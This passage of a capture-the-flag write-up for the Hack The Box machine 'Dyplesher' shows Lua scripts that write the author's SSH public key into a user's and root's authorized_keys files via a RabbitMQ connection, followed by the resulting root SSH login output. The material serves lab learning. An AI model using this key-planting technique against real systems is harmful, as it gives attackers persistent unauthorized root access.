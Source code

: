 > cRoot class
>
> This class represents the root of Cuberite's object hierarchy. There is always only one cRoot object. It manages and allows querying all the other objects, such as cServer, cPluginManager, individual worlds etc.

If this server will execute lua scripts as code then perhaps I could use one to either send me a shell or write an SSH key

[https://www.tutorialspoint.com/lua/lua\_file\_io.htm](https://www.tutorialspoint.com/lua/lua_file_io.htm)

```lua
file = io.open("/home/MinatoTW/.ssh/authorized_keys", "a+")

file.write("ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNcXZSv1c0okURSUinJWRCJyRJH64w1sBdoYgGDSC1IC/yoEEyTtVV7DgbjuAumrFXWifccQOywvSBG+MDWwlzw= zweilos@kali")

file.close()
```

I tested my lua script by running it and appending my SSH key \(again\) to MinatoTW's file, and was successful

### Getting a shell

Next I tried running the script against root through my remote RabbitMQ connection

```lua
file = io.open("/root/.ssh/authorized_keys", "w")

file.write("ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNcXZSv1c0okURSUinJWRCJyRJH64w1sBdoYgGDSC1IC/yoEEyTtVV7DgbjuAumrFXWifccQOywvSBG+MDWwlzw= zweilos@kali")

file.close()
```

after some troubleshooting...I realized that for some reason the file was not being opened for appending. Changing the 'mode' to write made everything work~

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/dyplesher]
└─$ ssh -i minato.key root@dyplesher.htb                                                          130 ⨯
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 12 Oct 2020 03:06:31 PM UTC

  System load:  0.02              Processes:              246
  Usage of /:   6.8% of 97.93GB   Users logged in:        1
  Memory usage: 40%               IP address for ens33:   10.10.10.190
  Swap usage:   0%                IP address for docker0: 172.17.0.1


57 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings


```